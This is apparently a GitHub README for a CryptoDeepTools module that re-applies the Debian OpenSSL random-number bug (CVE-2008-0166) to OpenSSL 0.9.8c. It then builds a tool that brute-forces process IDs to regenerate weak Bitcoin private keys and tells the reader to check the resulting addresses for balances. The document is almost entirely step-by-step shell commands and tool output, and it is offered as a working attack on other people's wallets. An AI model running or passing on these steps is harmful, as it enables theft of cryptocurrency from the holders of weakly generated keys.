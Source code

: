 # Vulnerable to Debian OpenSSL bug (CVE-2008-0166)

---

* Tutorial: https://youtu.be/zHkXups2I8k
* Tutorial: https://cryptodeep.ru/vulnerable-openssl

---

# Commands:

    git clone https://github.com/demining/CryptoDeepTools.git

    cd CryptoDeepTools/05VulnerableOpenSSL/

    apt-get update

    sudo apt-get install g++ -y

    sudo apt-get install libgmp3-dev libmpfr-dev -y

    wget https://ftp.openssl.org/source/old/0.9.x/openssl-0.9.8c.tar.gz

    tar xfz openssl-0.9.8c.tar.gz

    mv openssl-0.9.8c openssl-0.9.8c-vuln

    cd openssl-0.9.8c-vuln

    ls -lh

    patch -p1 <../make-OpenSSL-0-9-8c-vulnerable-again.diff

    ./Configure linux-x86_64 shared no-ssl2 no-ssl3 no-comp no-asm

    make depend all

    cd /

    ls

    cd content/CryptoDeepTools/05VulnerableOpenSSL/

    ls -lh


# Compilation:

    gcc -o cryptodeepbtcgen cryptodeepbtc.c -I./openssl-0.9.8c-vuln/include -L./openssl-0.9.8c-vuln -lssl -lcrypto

    ls -lh


RUN:

    LD_LIBRARY_PATH=./openssl-0.9.8c-vuln/ ./cryptodeepbtcgen -h


Version 0.1.2 (le64)

Usage:

-p n-m		Brute Force between PID n-m [default 0-32768]

-n <num>	Create num number of keys per PID [default: 10]

-l		Show all supported BTC versions

-v <prog>	Which BTC version to run (Try -l to find number) [0-43]

-x		Skip Self-Check



    LD_LIBRARY_PATH=./openssl-0.9.8c-vuln/ ./cryptodeepbtcgen -l



#0   - 0.3.24

#1   - 0.8.6-d

#2   - 0.8.6-qt

#3   - 0.9.1-d

#4   - 0.9.4-d

#5   - unknownA

#6   - unknownB

#7   - unknownC

e.t.c
e.t.c


    LD_LIBRARY_PATH=./openssl-0.9.8c-vuln/ ./cryptodeepbtcgen -n 32 -v 0 >> result.txt


Next, it remains to check all the generated Bitcoin Addresses for the presence of BTC coins, for this we can use a python script:  [bitcoin-checker.py](https://github.com/demining/CryptoDeepTools/blob/main/03CheckBitcoinAddressBalance/bitcoin-checker.py)


---

* Tutorial: https://youtu.be/zHkXups2I8k
* Tutorial: https://cryptodeep.ru/vulnerable-openssl

---







|  | Donation Address |
| --- | --- |
| ♥ __BTC__ | 1Lw2gTnMpxRUNBU85Hg4ruTwnpUPKdf3nV |
| ♥ __ETH__ | 0xaBd66CF90898517573f19184b3297d651f7b90bf |
